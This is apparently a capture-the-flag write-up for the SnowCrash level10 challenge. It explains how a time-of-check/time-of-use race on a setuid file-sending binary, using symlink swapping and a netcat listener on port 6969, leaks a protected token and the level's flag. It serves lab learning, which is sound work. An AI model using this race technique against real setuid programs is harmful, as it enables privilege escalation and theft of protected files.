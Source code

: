 # Flag 10

And again in the level10 we found two file a binary and a token file.

```
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token

```
We run the binary and it printed the next message
```
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it

```
So it takes two arguments a file and a host.
we opened the binary in binary ninja to find out what it does,
and it's simply check if we have the right to read the file we give it after that is sends its content the host you give it as second argument in the port `6969`.

we only have one problem, we dont have the right to read the token file.
but we can use race condition and trick the program to send us the token content.

we created two scripts, one contains an infinite loop that switch symbolic links between two file, the token and a file we created and have read permission on it and the other contains an infinite loop that executes the program.

```
scp -P 4242 getflag10.sh run.sh level10@192.168.1.70:/tmp/
           _____                      _____               _     
          / ____|                    / ____|             | |    
         | (___  _ __   _____      _| |     _ __ __ _ ___| |__  
          \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \ 
          ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
         |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|
                                                        
  Good luck & Have fun

          192.168.1.70 
level10@192.168.1.70's password: 
getflag10.sh                                                                                                                                                       100%  177   511.3KB/s   00:00    
run.sh 
```
And we used nectat to listen on `6969` port.

```
level10@SnowCrash:~$ nc -l -k 6969
[...]
.*( )*.
.*( )*.
fake
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
[...]
```

we got our flag:

```
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c

```